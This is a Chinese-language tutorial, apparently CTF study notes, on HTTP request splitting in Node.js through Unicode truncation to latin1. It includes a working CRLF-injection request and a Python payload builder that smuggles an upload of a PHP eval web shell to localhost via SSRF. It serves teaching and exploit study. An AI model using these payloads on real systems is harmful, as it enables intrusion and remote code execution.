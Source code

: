# NodeJS HTTP 拆分攻击

![img](nodejs_unicode字符损坏.assets/t01af324f2b225642c5.png)

## HTTP 请求路径中的 Unicode 字符损坏

虽然用户发出的 HTTP 请求通常将请求路径指定为字符串，但Node.js最终必须将请求作为原始字节输出。JavaScript支持unicode字符串，因此将它们转换为字节意味着选择并应用适当的Unicode编码。对于不包含主体的请求，Node.js默认使用“latin1”，这是一种单字节编码字符集，不能表示高编号的Unicode字符，例如🐶这个表情。所以，当我们的请求路径中含有多字节编码的Unicode字符时，会被截断取最低字节，比如 `\u0130` 就会被截断为 `\u30`

![1](nodejs_unicode字符损坏.assets/1.png)

## Unicode 字符损坏造成的 HTTP 拆分攻击

由于 Nodejs 的 HTTP 库包含了阻止 CRLF 的措施，即如果你尝试发出一个 URL 路径中含有回车、换行或空格等控制字符的 HTTP 请求是，它们会被 URL 编码，所以正常的 CRLF 注入在 Nodejs 中并不能利用![2](nodejs_unicode字符损坏.assets/2.png)

通过在请求路径中包含精心选择的Unicode字符，攻击者可以欺骗Node.js并成功实现CRLF注入。![3](nodejs_unicode字符损坏.assets/3.png)

```
http.get('http://47.101.57.72:4000/\u0120HTTP/1.1\u010D\u010ASet-Cookie:\u0120PHPSESSID=whoami\u010D\u010Atest:').output [ 'GET /ĠHTTP/1.1čĊSet-Cookie:ĠPHPSESSID=whoamičĊtest: HTTP/1.1\r\nHost: 47.101.57.72:4000\r\nConnection: close\r\n\r\n' ]
```

![img](nodejs_unicode字符损坏.assets/t0108dbf556f318ef33.png)

这里需要注意的是使用了一个test：来闭合掉多余的HTTP/1.1

## 在 HTTP 状态行注入完整 HTTP 请求

首先，由于 NodeJS 的这个 CRLF 注入点在 HTTP 状态行，所以如果我们要注入完整的 HTTP 请求的话需要先闭合状态行中 `HTTP/1.1` ，即保证注入后有正常的 HTTP 状态行。其次为了不让原来的 `HTTP/1.1` 影响我们新构造的请求，我们还需要再构造一次 `GET /` 闭合原来的 HTTP 请求。

假设目标主机存在SSRF，需要我们在目标主机本地上传文件。我们需要尝试构造如下这个文件上传的完整 POST 请求

```
payload = ''' HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=nk67astv61hqanskkddslkgst4
Connection: close

------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/octet-stream

<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test:'''.replace("\n","\r\n")

payload = payload.replace('\r\n', '\u010d\u010a') \
    .replace('+', '\u012b') \
    .replace(' ', '\u0120') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \
    .replace('`', '\u0127') \
    .replace('"', '\u0122') \
    .replace("'", '\u0a27') \
    .replace('[', '\u015b') \
    .replace(']', '\u015d') \

print(payload)

# 输出: ĠHTTP/1.1čĊčĊPOSTĠ/upload.phpĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Length:Ġ437čĊContent-Type:Ġmultipart/form-data;Ġboundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6čĊUser-Agent:ĠMozilla/5.0Ġ(WindowsĠNTĠ10.0;ĠWin64;Ġx64)ĠAppleWebKit/537.36Ġ(KHTML,ĠlikeĠGecko)ĠChrome/90.0.4430.72ĠSafari/537.36čĊAccept:Ġtext/html,application/xhtmlīxml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9čĊAccept-Encoding:Ġgzip,ĠdeflatečĊAccept-Language:Ġzh-CN,zh;q=0.9čĊCookie:ĠPHPSESSID=nk67astv61hqanskkddslkgst4čĊConnection:ĠclosečĊčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢMAX_FILE_SIZEĢčĊčĊ100000čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢuploadedĢ;Ġfilename=Ģshell.phpĢčĊContent-Type:Ġapplication/octet-streamčĊčĊ<?phpĠeval($_POSTśĢwhoamiĢŝ);?>čĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6čĊContent-Disposition:Ġform-data;Ġname=ĢUploadĢčĊčĊUploadčĊ------WebKitFormBoundaryjDb9HMGTixAA7Am6--čĊčĊGETĠ/ĠHTTP/1.1čĊtest:
```

## 流程分析

原始请求数据如下：

```http
GET / HTTP/1.1
Host: 47.101.57.72:4000
```

当我们插入CRLF数据后，HTTP请求数据变成了：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

 HTTP/1.1
Host: 47.101.57.72:4000
```

上次请求包的Host字段和状态行中的 `HTTP/1.1` 就单独出来了，所以我们再构造一个请求把他闭合：

```http
GET / HTTP/1.1

POST /upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 437
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjDb9HMGTixAA7Am6
......
<?php eval($_POST["whoami"]);?>
------WebKitFormBoundaryjDb9HMGTixAA7Am6
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryjDb9HMGTixAA7Am6--

GET / HTTP/1.1
test: HTTP/1.1
Host: 47.101.57.72:4000
```

学习例题：https://www.anquanke.com/post/id/241429#h2-6